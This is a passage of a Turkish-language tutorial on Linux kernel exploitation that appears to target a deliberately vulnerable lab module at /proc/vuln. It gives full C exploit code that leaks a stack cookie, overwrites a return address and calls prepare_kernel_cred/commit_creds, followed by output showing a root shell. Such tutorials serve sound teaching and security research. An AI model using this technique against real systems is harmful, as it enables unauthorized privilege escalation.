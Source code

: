 ```c

void root(void){
  __asm__(
  ".intel_syntax noprefix;"
  "movabs rax, 0xffffffff81094a50;" //prepare_kernel_cred
  "xor rdi, rdi;"
  "call rax; mov rdi, rax;"
  "movabs rax, 0xffffffff810947b0;" //commit_creds
  "call rax;"
  ".att_syntax;"
  );
}

int main(){
  int fd = open(DEVICE, O_RDWR);
  unsigned long w[3];
  unsigned long r[5];

  read(fd, r, sizeof(r));
  for(int i = 0; i < sizeof(r)/8; i++){
    printf("Reading (%d): %lx\n", i, r[i]);
  }
  printf("Cookie leaked! %lx\n", r[4]);

  w[1] = r[4];
  w[2] = (unsigned long)&root;
  puts("Writing the payload to "DEVICE);
  write(fd, w, sizeof(w));
  close(fd);

  // bu noktada payloadımızı yazıp root aldığımıza göre 
  // komutu çalıştırabiliriz
  puts("Running the command");
  system(CMD);

  return 0;
}
```
Eğer oluşturduğumuz `user` kullanıcısı olarak bu yeni exploiti çalıştırırsak:
```
[user@k101 ~]$ ./exploit
Reading (0): 4141414141414141
Reading (1): 4141414141414141 
Reading (2): 4141414141414141 
Reading (3): 4141414141414141
Reading (4): 5e7e6aa8d2e8d600
Cookie leaked! 5e7e6aa8d2e8d600
Writing the payload to /proc/vuln
Running the command
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```
root shellimizi elde ediyoruz. 

---
[Önceki](first.md) | [Başa dön](README.md)
